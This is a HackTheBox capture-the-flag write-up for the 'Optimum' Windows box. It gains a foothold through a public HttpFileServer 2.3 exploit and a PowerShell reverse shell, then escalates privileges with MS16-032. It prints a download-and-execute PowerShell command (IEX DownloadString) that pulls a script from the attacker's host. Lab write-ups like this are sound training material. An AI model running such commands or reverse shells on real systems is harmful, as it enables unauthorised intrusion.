 ```yaml
---
layout: default
title: Optimum
parent: HackTheBox
nav_order: 5
---
```

# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

![](pictures/logo-optimum.PNG)

- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.

![](pictures/site-optimum.png)

I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.


![](pictures/ssploit-optimum.png)



## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell

![](pictures/edit-optimum.png)

Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)

![](pictures/cm-optimum.png)

Annnnd we get some access



![](pictures/user-optimum.png)



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.

![](pictures/systeminfo-optimum.png)


From here in order to automate the privesc search process I downloaded from my local python server, [Sherlock](https://github.com/rasta-mouse/Sherlock), written by RastaMouse.
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root

![](pictures/root-optimum.png)



Overall, I found the privesc portion of this box very useful!